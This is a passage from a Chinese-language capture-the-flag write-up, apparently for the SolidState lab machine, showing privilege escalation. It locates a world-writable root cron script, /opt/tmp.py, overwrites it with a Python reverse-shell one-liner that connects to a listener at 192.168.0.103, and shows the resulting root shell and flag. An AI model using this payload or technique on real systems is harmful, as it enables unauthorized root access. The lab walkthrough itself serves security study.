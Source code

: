 查找具有777 权限的文件

```
find / -perm 777 -type f 2>/dev/null
```

找到 `/opt/tmp.py`

```bash
ls -al /opt
total 16
drwxr-xr-x  3 root root 4096 Aug 22  2017 .
drwxr-xr-x 22 root root 4096 Jun 18  2017 ..
drwxr-xr-x 11 root root 4096 Aug 22  2017 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
```

看权限是 buff 叠满了，查看文件内容，看起来像一个执行清空 /tmp 目录下文件的计划任务，当然我们也可以在 /tmp 目录下手动创建文件验证以下

```bash
$ cat tmp.py
cat tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()

```

于是就修改文件内容达到提权效果了，这里是反弹 shell，还可以复制 /bin/bash 到别的目录，再加 -p 参数提权也行

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.103",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' > /opt/tmp.py
```

监听到 root 权限的反弹 shell

```bash
└─# nc -lvvp 2333            
listening on [any] 2333 ...
connect to [192.168.0.103] from 192.168.0.104 [192.168.0.104] 42118
bash: cannot set terminal process group (1135): Inappropriate ioctl for device
bash: no job control in this shell
root@solidstate:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@solidstate:~# pwd
pwd
/root
root@solidstate:~# ls
ls
root.txt
root@solidstate:~# cat root.txt
cat root.txt
b4c9723a28899b1c45db281d99cc87c9
```
